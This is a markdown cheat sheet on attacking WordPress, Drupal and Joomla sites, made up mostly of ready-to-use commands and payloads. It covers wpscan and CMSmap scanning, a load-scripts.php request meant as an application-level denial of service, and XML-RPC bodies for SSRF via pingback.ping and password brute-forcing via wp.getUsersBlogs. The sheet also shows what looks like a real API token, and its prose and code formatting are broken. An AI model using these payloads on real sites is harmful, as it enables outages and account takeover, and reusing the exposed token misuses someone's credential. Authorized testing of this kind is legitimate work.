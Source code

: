 
# WordPress, Drupal, Joomla - CMS (Content Management System)


## Introduction
An  WordPress vulnerability is a type of security flaw that 
use WordPress , 
## Where to find
In  WordPress - CMS (Content Management System) useing wappalyzer extention analyse WordPress, Drupal, Joomla .

## How to exploit
## 1.WpScan 
 How to use it :


 1.Basic 
 ```
wpscan --url https://example.com
...
2.enumerating all themes
```
wpscan --url https://example.com -e at
...
 3. enumerating all plugin
```
wpscan --url https://example.com -e ap
...
4.enumerating all vulnerable themes
```
wpscan --url https://example.com -e vt --api-token=LAusKwrzSuMtJucpp0QYjpSo2CiQohsnsC4ybxsGox0
...

5.enumerating all vulnerable plugin
```
wpscan --url https://example.com -e vp --api-token=LAusKwrzSuMtJucpp0QYjpSo2CiQohsnsC4ybxsGox0
...


2. CMSmap
Wordpress, Drupal, Joomla

```
Installation:  
1.git clone https://github.com/Dionach/CMSmap
2.cd CMSmap
3.pip3 install .
...

Use:

```
cd CMSmap
sudo python3 cmsmap.py https://example.com

sudo python3 cmsmap.py https://example.com -f W
W - wordpress
D - drupal
J - joomla
...





 3. CMSscan
Installation:

```

1. git clone https://github.com/ajinabraham/CMSScan.git
2. cd CMSScan
3. sudo ./setup.sh
4. cd plugins
5. sudo nano scanners.py

...



now find 

```
wp_scan = ['wpscan', '--url', url, '--no-banner', '-f', 'json',
               '--force', '-e', 'vp,vt', '--plugins-detection',
               'mixed', '--rua']
here we have to add api key

wp_scan = ['wpscan', '--url', url, '--no-banner', '-f', 'json',
               '--force', '-e', 'vp,vt', '--plugins-detection',
               'mixed', '--rua', '--api-token=your_token_here']
CTRL+X, then Y and then Enter to save it.

...

Use: 

```

cd CMSScan
./run.sh
after running you will find a url in 2nd line

...



## Application Level DOS

```

https://example.com/wp-admin/load-scripts.php?load=react,react-dom,moment,lodash,wp-polyfill-fetch,wp-polyfill-formdata,wp-polyfill-node-contains,wp-polyfill-url,wp-polyfill-dom-rect,wp-polyfill-element-closest,wp-polyfill,wp-block-library,wp-edit-post,wp-i18n,wp-hooks,wp-api-fetch,wp-data,wp-date,editor,colorpicker,media,wplink,link,utils,common,wp-sanitize,sack,quicktags,clipboard,wp-ajax-response,wp-api-request,wp-pointer,autosave,heartbeat,wp-auth-check,wp-lists,cropper,jquery,jquery-core,jquery-migrate,jquery-ui-core,jquery-effects-core,jquery-effects-blind,jquery-effects-bounce,jquery-effects-clip,jquery-effects-drop,jquery-effects-explode,jquery-effects-fade,jquery-effects-fold,jquery-effects-highlight,jquery-effects-puff,jquery-effects-pulsate,jquery-effects-scale,jquery-effects-shake,jquery-effects-size,jquery-effects-slide,jquery-effects-transfer,jquery-ui-accordion,jquery-ui-autocomplete,jquery-ui-button,jquery-ui-datepicker,jquery-ui-dialog,jquery-ui-draggable,jquery-ui-droppable,jquery-ui-menu,jquery-ui-mouse,jquery-ui-position,jquery-ui-progressbar,jquery-ui-resizable,jquery-ui-selectable,jquery-ui-selectmenu,jquery-ui-slider,jquery-ui-sortable,jquery-ui-spinner,jquery-ui-tabs,jquery-ui-tooltip,jquery-ui-widget,jquery-form,jquery-color,schedule,jquery-query,jquery-serialize-object,jquery-hotkeys,jquery-table-hotkeys,jquery-touch-punch,suggest,imagesloaded,masonry,jquery-masonry,thickbox,jcrop,swfobject,moxiejs,plupload,plupload-handlers,wp-plupload,swfupload,swfupload-all,swfupload-handlers,comment-reply,json2,underscore,backbone,wp-util,wp-backbone,revisions,imgareaselect,mediaelement,mediaelement-core,mediaelement-migrate,mediaelement-vimeo,wp-mediaelement,wp-codemirror,csslint,esprima,jshint,jsonlint,htmlhint,htmlhint-kses,code-editor,wp-theme-plugin-editor,wp-playlist,zxcvbn-async,password-strength-meter,user-profile,language-chooser,user-suggest,admin-bar,wplink,wpdialogs,word-count,media-upload,hoverIntent,hoverintent-js,customize-base,customize-loader,customize-preview,customize-models,customize-views,customize-controls,customize-selective-refresh,customize-widgets,customize-preview-widgets,customize-nav-menus,customize-preview-nav-menus,wp-custom-header,accordion,shortcode,media-models,wp-embed,media-views,media-editor,media-audiovideo,mce-view,wp-api,admin-tags,admin-comments,xfn,postbox,tags-box,tags-suggest,post,editor-expand,link,comment,admin-gallery,admin-widgets,media-widgets,media-audio-widget,media-image-widget,media-gallery-widget,media-video-widget,text-widgets,custom-html-widgets,theme,inline-edit-post,inline-edit-tax,plugin-install,site-health,privacy-tools,updates,farbtastic,iris,wp-color-picker,dashboard,list-revisions,media-grid,media,image-edit,set-post-thumbnail,nav-menu,custom-header,custom-background,media-gallery,svg-painter

...

4.19MB
suppose 10000*4.19=419000MB == 42GB


XMLRPC

```
<methodCall>
<methodName>system.listMethods</methodName>
<params></params>
</methodCall>

...

1. SSRF -------> pingback.ping


```
<methodCall>
<methodName>pingback.ping</methodName>
<params><param>
<value><string>Host</string></value>
</param><param><value><string>Some Valid Post Link</string>
</value></param></params>
</methodCall>

...

2. Brute-force --------> wp.getUsersBlogs
```

<methodCall>
<methodName>wp.getUsersBlogs</methodName>
<params>
<param><value>username</value></param>
<param><value>password</value></param>
</params>
</methodCall>


...

